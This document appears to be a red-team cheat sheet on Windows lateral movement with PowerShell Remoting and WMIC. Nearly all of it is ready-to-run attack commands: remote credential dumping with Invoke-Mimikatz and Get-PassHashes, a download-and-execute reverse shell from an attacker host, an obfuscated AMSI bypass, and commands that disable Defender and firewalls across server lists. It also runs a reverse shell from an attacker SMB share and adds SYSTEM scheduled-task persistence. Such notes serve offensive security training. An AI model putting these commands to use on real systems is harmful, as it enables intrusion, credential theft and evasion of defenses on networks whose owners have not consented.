 # Powershell Remoting

## Permissions: Administrator

## Requirements: WinRM (port 5985/5986) open

## Ways to use:

 - One-to-One

 - Interactive

 - Stateful

 - Executes in a new process (wsmprovhost)

 - Execute command on multiple systems at once

 - Runs background jobs

 - -Credential parameter can be used to pass credentials

## Create a session

##### Enable PowerShell Remoting on local system (Requires elevated privileges)

    Enable-PSRemoting

##### Create new PSSession

    New-PSSession -Computer Srv01.Security.local

##### Connect to PSSession

    Enter-PSSession -Computer Srv01.Security.local

##### Store session as variable

    $Session = New-PSSession -Computer Srv01.Security.local

### If you have sessions stored as variables then commands with the -Computername parameter can be replaced with -Session $session.

## Run commands on target

    Invoke-Command -Computername Srv01.Security.local -ScriptBlock {Whoami;Hostname}
    Invoke-Command -Computername Srv01.Security.local -FilePath 'C:\Tools\Invoke-Mimikatz.ps1'

##### Run locally loaded functions on target system

    Invoke-Command -Computername Srv01.Security.local -ScriptBlock ${Function:Test-Function}

##### Load script into remote session

    Invoke-Command -FilePath 'C:\Tools\Invoke-Mimikatz.ps1' -Session $Session

##### Reverse shell

    Invoke-Command -ComputerName Srv01.Security.local -ScriptBlock {cmd /c "powershell -ep bypass iex (New-Object Net.WebClient).DownloadString('http://<IP>/Shell.ps1')"}

##### Bypass AMSI

    Invoke-Command -session $Session -scriptblock {sET-ItEM ( 'V'+'aR' +  'IA' + 'blE:1q2'  + 'uZx'  ) ( [TYpE](  "{1}{0}"-F'F','rE'  ) )  ;    (    GeT-VariaBle  ( "1Q2U"  +"zX"  )  -VaL  )."A`ss`Embly"."GET`TY`Pe"((  "{6}{3}{1}{4}{2}{0}{5}" -f'Util','A','Amsi','.Management.','utomation.','s','System'  ) )."g`etf`iElD"(  ( "{0}{2}{1}" -f'amsi','d','InitFaile'  ),(  "{2}{4}{0}{1}{3}" -f 'Stat','i','NonPubli','c','c,'  ))."sE`T`VaLUE"(  ${n`ULl},${t`RuE} )}

## Run commands on multiple systems

##### Execute commands on multiple systems

    Invoke-Command –Scriptblock {Get-Process} -ComputerName (Get-Content c:\Serverlist.txt) 

##### Execute scripts on multiple systems

    Invoke-Command –FilePath C:\scripts\Get-PassHashes.ps1 -ComputerName (Get-Content c:\Serverlist.txt)

##### Execute functions on multiple systems

    Invoke-Command -ScriptBlock ${function:Get-PassHashes} -ComputerName (Get-Content c:\Serverlist.txt)

##### Bypass AMSI on multiple systems

    Invoke-Command -Scriptblock {sET-ItEM ( 'V'+'aR' +  'IA' + 'blE:1q2'  + 'uZx'  ) ( [TYpE](  "{1}{0}"-F'F','rE'  ) )  ;    (    GeT-VariaBle  ( "1Q2U"  +"zX"  )  -VaL  )."A`ss`Embly"."GET`TY`Pe"((  "{6}{3}{1}{4}{2}{0}{5}" -f'Util','A','Amsi','.Management.','utomation.','s','System'  ) )."g`etf`iElD"(  ( "{0}{2}{1}" -f'amsi','d','InitFaile'  ),(  "{2}{4}{0}{1}{3}" -f 'Stat','i','NonPubli','c','c,'  ))."sE`T`VaLUE"(  ${n`ULl},${t`RuE} )} -ComputerName (Get-Content c:\Serverlist.txt)

## Disable Defenses

##### Turns off Defender, sets an exclusion path

    Invoke-Command -ComputerName Srv02.Security.local -ScriptBlock {Set-MpPreference -DisableRealtimeMonitoring $true;` Set-MpPreference -DisableIOAVProtection $true;` Set-MPPreference -DisableBehaviorMonitoring $true;` Set-MPPreference -DisableBlockAtFirstSeen $true;` Set-MPPreference -DisableEmailScanning $true;` Set-MPPReference -DisableScriptScanning $true;` Set-MpPreference -DisableIOAVProtection $true;` Add-MpPreference -ExclusionPath "C:\Windows\Temp";`}

##### Turns off all firewall profiles

    Invoke-Command -ComputerName Srv02.Security.local -ScriptBlock {Set-NetFirewallProfile -Profile "Domain","Public","Private" -Enabled "False"}

##### Turns off Defender and Firewall on multiple systems

    Invoke-Command -ScriptBlock {Set-MpPreference -DisableRealtimeMonitoring $true;` Set-MpPreference -DisableIOAVProtection $true;` Set-MPPreference -DisableBehaviorMonitoring $true;` Set-MPPreference -DisableBlockAtFirstSeen $true;` Set-MPPreference -DisableEmailScanning $true;` Set-MPPReference -DisableScriptScanning $true;` Set-MpPreference -DisableIOAVProtection $true;` Add-MpPreference -ExclusionPath "C:\Windows\Temp";` Set-NetFirewallProfile -Profile "Domain","Public","Private" -Enabled "False"}` -ComputerName (Get-Content c:\Serverlist.txt)

# Wmic

##### Execute calc.exe on remote system

    wmic /node:10.10.10.5 /user:moe process call create "cmd.exe /c calc.exe"

##### Executing reverse shell on remote system from a SMB share hosted on attackers system

    wmic /node:10.10.10.5 /user:moe process call create "cmd.exe /c \\10.10.10.200\Share\reverse.exe"

##### Setting up persistence with schtasks on a remote system to execute a reverse shell every minute/

    wmic /node:10.10.10.5 /user:moe process call create "schtasks /create /sc minute /mo 1 /tn "Persistence" /tr \\10.10.10.200\Share\reverse.exe /ru "SYSTEM""

